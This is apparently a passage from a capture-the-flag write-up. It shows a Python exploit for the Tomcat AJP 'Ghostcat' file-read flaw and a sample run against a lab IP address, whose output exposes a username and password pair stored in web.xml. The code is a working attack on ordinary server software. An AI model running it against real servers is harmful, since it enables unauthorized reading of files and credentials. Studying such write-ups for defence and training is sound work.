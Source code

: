 ```Python
		if user is not None and password is not None:
			self.forward_request.request_headers['SC_REQ_AUTHORIZATION'] = "Basic " + ("%s:%s" % (user, password)).encode('base64').replace('\n', '')
		for h in headers:
			self.forward_request.request_headers[h] = headers[h]
		for a in attributes:
			self.forward_request.attributes.append(a)
		responses = self.forward_request.send_and_receive(self.socket, self.stream)
		if len(responses) == 0:
			return None, None
		snd_hdrs_res = responses[0]
		data_res = responses[1:-1]
		if len(data_res) == 0:
			print("No data in response. Headers:%s\n" % snd_hdrs_res.response_headers)
		return snd_hdrs_res, data_res

'''
javax.servlet.include.request_uri
javax.servlet.include.path_info
javax.servlet.include.servlet_path
'''

import argparse
parser = argparse.ArgumentParser()
parser.add_argument("target", type=str, help="Hostname or IP to attack")
parser.add_argument('-p', '--port', type=int, default=8009, help="AJP port to attack (default is 8009)")
parser.add_argument("-f", '--file', type=str, default='WEB-INF/web.xml', help="file path :(WEB-INF/web.xml)")
args = parser.parse_args()
t = Tomcat(args.target, args.port)
_,data = t.perform_request('/asdf',attributes=[
    {'name':'req_attribute','value':['javax.servlet.include.request_uri','/']},
    {'name':'req_attribute','value':['javax.servlet.include.path_info',args.file]},
    {'name':'req_attribute','value':['javax.servlet.include.servlet_path','/']},
    ])
print('----------------------------')
print("".join([d.data.decode() for d in data]))
```

Using the exploit to get the default file

```
$ ./ajpexp.py -p 8009 10.10.210.249

Getting resource at ajp13://10.10.210.249:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
<...snip...>

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfu*k:8730281lkjlkjdqlksalks
  </description>

</web-app>
```
